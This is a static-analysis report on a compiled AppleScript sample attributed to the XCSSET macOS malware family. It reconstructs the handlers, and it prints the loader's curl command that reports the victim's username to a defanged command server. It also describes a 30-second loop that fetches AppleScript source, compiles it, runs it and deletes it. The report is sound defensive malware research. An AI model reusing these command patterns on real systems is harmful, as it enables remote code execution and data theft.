

# Code-level static analysis

## Scope and method

The sole local artifact was analyzed as inert bytes. Hashing, file-type
identification, FAS object parsing, literal extraction and AppleScript bytecode
disassembly were used. The sample was not passed to `osascript`, opened in a
script runtime, emulated or permitted to contact its infrastructure.

An independent, locked-down REMnux pass reproduced the format, hashes, encoded
strings and all three YARA matches. It also exposed generic-tool truncation and
unsupported-format traps; see
[remnux_static_analysis.md](remnux_static_analysis.md).

The file begins with `FasdUAS 1.101.10`, Apple's serialized compiled-script
format. It is a run-only compiled AppleScript: original source formatting is
absent, but its value objects, handler bytecode, variable names, command
identifiers and string literals are recoverable.

## Handler inventory

| Handler | Bytecode | Inputs and locals | Recovered role |
|---|---:|---|---|
| `run` | 50 bytes | global state only | Initializes build fields, username and working directory, then starts the loader |
| `log` | 34 bytes | argument `message`; local `modName` | Sends launch/finish status to `/agent/log.php` |
| `exec` | 74 bytes | locals `targetFolder`, `oFile` | Recreates staging, retrieves, compiles, runs and removes `com.scpt` |
| `boot` | 30 bytes | none | Error-tolerant 30-second recursive staging loop |

The handler names and lengths come directly from the compiled FAS objects. The
statement reconstruction is documented in [recovered_source.md](recovered_source.md).

## Initialization

The `run` handler:

1. Sets `buildVendor` to `default` and `buildVersion` to `1`.
2. Runs `whoami` through the Standard Additions `do shell script` event and
   stores its output in `userName`.
3. Gets the current applet path as text, appends the HFS parent marker `::`,
   converts it to a POSIX path and stores the result in `dFolder`.
4. Reports `module launched`, enters `boot`, and has a trailing
   `module finished` report that is normally unreachable because `boot`
   recursively invokes itself.

The path expression indicates that this script expects an AppleScript applet
wrapper and stages beside its containing location. The wrapper itself is not
present locally.

## Status reporting

`log(message)` fixes the module label to `Xcode`, then constructs this request:

```text
curl --connect-timeout 10 -ks -d '<message>' \
  -H 'X-User: <username>' \
  -H 'X-Module: Xcode' \
  hxxps://adobestats[.]com/agent/log.php
```

The command is inside a bare `try` block. Any shell, DNS, TLS or HTTP failure
is discarded. `-k` disables TLS certificate verification, `-s` suppresses
normal output and `--connect-timeout 10` limits only connection establishment.

## Module staging

`exec` performs the following sequence with shell-quoted paths:

1. `rm -rf <dFolder>/CoreFrameworks`
2. `mkdir -p <dFolder>/CoreFrameworks`
3. Set the output to `<dFolder>/CoreFrameworks/com.scpt`
4. POST `user`, `build_vendor` and `build_version` to `/agent/com.php`
5. Pipe the response to `osacompile -x -o <output>`
6. Run the result with `osascript <output>`, suppressing stdout and stderr
7. Delete `com.scpt` with `rm -f`

The `-x` flag compiles the server response as run-only AppleScript. The response
is therefore expected to be AppleScript source, not the already compiled
payload. The use of a pipe minimizes the plaintext source's disk exposure, but
the compiled `com.scpt` exists until `osascript` returns and cleanup runs.

`do shell script` is synchronous. A retrieved module that does not return or
background its durable work can block the cleanup and next loop iteration.

## Retry and error semantics

`boot` wraps only the `exec` call in a `try` block. Whether staging succeeds or
throws an AppleScript error, execution proceeds to a 30-second delay and calls
`boot` again. This provides recovery from transient C2, compilation and module
execution failures without a separate daemon inside this file.

The recursion is bytecode-proven. Whether AppleScript performs tail-call
optimization here cannot be established statically; a long-running instance
could otherwise accumulate call frames.



## Version and attribution assessment

This file is a legacy XCSSET loader, with high confidence. Its exact
`adobestats[.]com` C2, fake-Xcode module label, run-only `main.scpt` structure
and server-delivered AppleScript architecture align with Trend Micro's original
2020 XCSSET reporting.

It is not the XCSSET v40 loader described by Unit 42 in 2026:

| Dimension | Local sample | XCSSET v40 reporting |
|---|---|---|
| Embedded C2 | `adobestats[.]com` | Rotating 2026 `.ru`/`.in` pool |
| Module endpoint | `/agent/com.php` | `/s/<rotated_module_name>` |
| Module form | Plain source piped into `osacompile -x` | Per-delivery AES-256-CBC blobs streamed into memory |
| Identifier protection | Handler/global names remain readable | Server-side substitution cipher |
| Retry model | Disk-backed `com.scpt`, 30-second recursion | Mostly memory-resident `boot` orchestrator |

The shared ideas—AppleScript, `curl`, a `boot` loop and task-specific modules—
show lineage, not version equivalence.

## Capabilities not established by this sample

This file does not implement Xcode project infection, persistence, browser
hijacking, credential theft, keylogging, clipboard manipulation, TCC reset or
security-control impairment. Those capabilities exist in broader family
reporting or server-delivered modules, but cannot be assigned to this file
without additional artifacts.

## Static-analysis limitations

- The C2 response and `com.scpt` payload are not embedded and were not fetched.
- The initial project-infection chain and applet wrapper are absent.
- Runtime reachability, server availability and operator tasking are unknown.
- Recovered source is semantic reconstruction; comments and some original
  source syntax are not retained by the run-only compiler.

## Sources

- [Trend Micro — XCSSET technical brief (2020)](https://documents.trendmicro.com/assets/pdf/XCSSET_Technical_Brief.pdf)
- [Unit 42 — XCSSET v40 analysis (2026)](https://unit42.paloaltonetworks.com/xcsset-v40-malware-analysis/)
- [AppleScript Language Guide — commands reference](https://developer.apple.com/library/archive/documentation/AppleScript/Conceptual/AppleScriptLangGuide/reference/ASLR_cmds.html)
